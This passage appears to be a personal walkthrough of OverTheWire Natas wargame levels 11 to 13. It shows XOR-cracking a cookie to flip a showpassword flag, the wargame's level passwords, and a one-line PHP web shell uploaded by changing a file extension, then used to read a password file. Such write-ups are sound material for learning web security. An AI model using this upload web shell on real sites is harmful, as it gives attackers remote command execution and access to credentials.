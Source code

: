 ```php
if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);

?>
```

 We need to inject in the cookies and try to find the key so that the tempdata variable sets the showpassword to yes.

Found out the key "qw8j" using repeated key XOR and used it to encode the cookies.

natas12 : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

# Level 12-13

![/assets/images/OverTheWire/Natas/Untitled%205.png](/assets/images/OverTheWire/Natas/Untitled%205.png)

Arbitary file could be uploaded so uploaded a php file where command could be executed.

```php
<?php system($_GET['cmd']);?>
```

The hidden field filename's extension is used and by default it is jpg, changed it to php and got the webshell. Cat /etc/natas_webpass/natas13 command used to get creds.

natas13 :  jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

# Level 13-14

![/assets/images/OverTheWire/Natas/Untitled%206.png](/assets/images/OverTheWire/Natas/Untitled%206.png)

